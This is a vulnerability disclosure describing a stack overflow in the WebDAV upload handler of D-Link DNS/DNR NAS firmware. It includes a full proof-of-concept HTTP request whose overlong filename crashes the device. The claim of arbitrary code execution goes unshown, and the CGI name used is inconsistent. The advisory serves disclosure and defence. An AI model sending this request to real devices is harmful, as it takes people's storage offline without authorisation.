



# D-Link Vulnerability

Vendor:D-Link

Product:DNS-120、DNR-202L、DNS-315L、DNS-320、DNS-320L、DNS-320LW、DNS-321、DNR-322L、DNS-323、DNS-325、DNS-326、DNS-327L、DNR-326、DNS-340L、DNS-343、DNS-345、DNS-726-4、DNS-1100-4、DNS-1200-05 、DNS-1550-04

Version:up to 20260205

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability reporting environment is based on the latest version 2.06b01 of the DNS-320.


## Vulnerability description

We found an stack overflow vulnerability in D-Link Technology NAS device with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `file_center.cgi` binary:

In `Webdav_Upload_File` function, `filename` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `filename` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `filename` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

<div  align="center"></div>


## PoC

We set `filename` as **aaaaa......** , and the router will crash, such as:

```http
POST /cgi-bin/webdav_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary85923068a4c0fa7d6f6bf5f8fcea35e3
Content-Length: 1348
Origin: http://192.168.0.32
Connection: keep-alive
Referer: http://192.168.0.32/web/system_mgr/language.html
Cookie: username=admin
Upgrade-Insecure-Requests: 1
Priority: u=4

------geckoformboundary85923068a4c0fa7d6f6bf5f8fcea35e3
Content-Disposition: form-data; name="f_file"; filename="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
Content-Type: application/octet-stream

pjqwudi
------geckoformboundary85923068a4c0fa7d6f6bf5f8fcea35e3
Content-Disposition: form-data; name="cmd"

Webdav_Upload_File
------geckoformboundary85923068a4c0fa7d6f6bf5f8fcea35e3--
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
